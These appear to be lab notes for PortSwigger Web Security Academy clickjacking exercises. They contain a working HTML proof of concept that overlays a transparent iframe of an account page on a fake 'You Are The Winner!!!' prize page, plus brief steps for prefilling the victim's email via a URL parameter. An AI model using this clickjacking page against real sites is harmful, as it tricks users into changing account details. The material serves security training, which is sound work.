 ```htm
<html>
    <head>
        <style>
            #vulnarble_website {
                position:relative;
                width:1920px;
                height:720px;
                top: 75px;
                left: -95px;
                opacity:0.2;
                z-index:2;
                padding-left:80px
                }
            #attacker_website {
                position:absolute;
                z-index:1;
                }
            #attacker_website button {
                margin-left: 425px;
                margin-top: 450;
                }
        </style>
    </head>
    <body>
         <div id="attacker_website">
            <h1>You Are The Winner!!!</h1>
            <h2>You won an awesome tropics holiday!</h2>
            <h2>Accept it by clicking the button below.</h2>
            <button type="reset">Click 2 Win!</button>
        </div>      
        <iframe id="vulnarble_website" src="https://0aa600720483fd5bc09a01d700f500e2.web-security-academy.net/my-account">
        </iframe>
    </body>
</html>
```

# CLICK!

# ***2. Lab: Clickjacking with form input data prefilled from a URL parameter***
https://portswigger.net/web-security/clickjacking/lab-prefilled-form-input

 To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed. 

login, and test change your own email address. send req to repeater

use the same iframe as before - just with ?paramater in the adress to fill the email address for the victim
